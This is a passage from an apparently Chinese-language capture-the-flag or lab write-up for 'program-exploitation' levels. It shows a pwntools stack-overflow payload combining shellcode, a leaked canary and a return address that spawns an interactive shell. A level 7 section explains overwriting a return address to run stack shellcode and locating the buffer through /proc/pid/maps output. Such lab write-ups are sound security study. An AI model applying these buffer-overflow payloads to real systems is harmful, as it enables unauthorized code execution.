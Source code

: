 ```python
real_payload = shellcode + 10 * b'A' + 60* b'a' + p32(90) + p32(0x01) + p32(0x00)  + canary_value + 16 *b'A'+ 8*b'C'+ return_address
p.send(real_payload)
p.interactive()
exit()
```

## level 7

这一关增加了虚拟架构。我们首先要寻找溢出点，发现在执行 `SYS`系统调用的 `write`调用时，我们可以从 `0x300 + 0x FF`开始，这样就可以溢出到保留的返回地址 `ret`。然后我们在将返回地址填充为栈空间的地址，这样就可以跳转到栈空间中执行shellcode。

但是在这一关中，没办法找到准确的 `buf`的栈地址，因为保留的栈帧不知道为什么变成0了。所以我们需要使用 `cat /proc/pid/maps`查看对应进程的stack空间起始地址，至于 `buf`的首地址，可以通过遍历来解决，注意step为 `0x08`

```bash
hacker@program-exploitation~level7-0:~$ cat /proc/4218/maps
00400000-00404000 r-xp 00000000 07:17d 420                               /home/hacker/exploit/level7/toddlerone_level7.0
00405000-00406000 r-xp 00004000 07:17d 420                               /home/hacker/exploit/level7/toddlerone_level7.0
00406000-00407000 rwxp 00005000 07:17d 420                               /home/hacker/exploit/level7/toddlerone_level7.0
00407000-00428000 rwxp 00000000 00:00 0                                  [heap]
7ffff7dce000-7ffff7df0000 r-xp 00000000 00:b35 188511454                 /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7df0000-7ffff7f68000 r-xp 00022000 00:b35 188511454                 /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7f68000-7ffff7fb6000 r-xp 0019a000 00:b35 188511454                 /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7fb6000-7ffff7fba000 r-xp 001e7000 00:b35 188511454                 /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7fba000-7ffff7fbc000 rwxp 001eb000 00:b35 188511454                 /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7fbc000-7ffff7fc2000 rwxp 00000000 00:00 0 
7ffff7fcb000-7ffff7fce000 r--p 00000000 00:00 0                          [vvar]
7ffff7fce000-7ffff7fcf000 r-xp 00000000 00:00 0                          [vdso]
7ffff7fcf000-7ffff7fd0000 r-xp 00000000 00:b35 188511193                 /usr/lib/x86_64-linux-gnu/ld-2.31.so
7ffff7fd0000-7ffff7ff3000 r-xp 00001000 00:b35 188511193                 /usr/lib/x86_64-linux-gnu/ld-2.31.so
7ffff7ff3000-7ffff7ffb000 r-xp 00024000 00:b35 188511193                 /usr/lib/x86_64-linux-gnu/ld-2.31.so
7ffff7ffc000-7ffff7ffd000 r-xp 0002c000 00:b35 188511193                 /usr/lib/x86_64-linux-gnu/ld-2.31.so
7ffff7ffd000-7ffff7ffe000 rwxp 0002d000 00:b35 188511193                 /usr/lib/x86_64-linux-gnu/ld-2.31.so
7ffff7ffe000-7ffff7fff000 rwxp 00000000 00:00 0 
7ffffffde000-7ffffffff000 rwxp 00000000 00:00 0                          [stack]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]
```
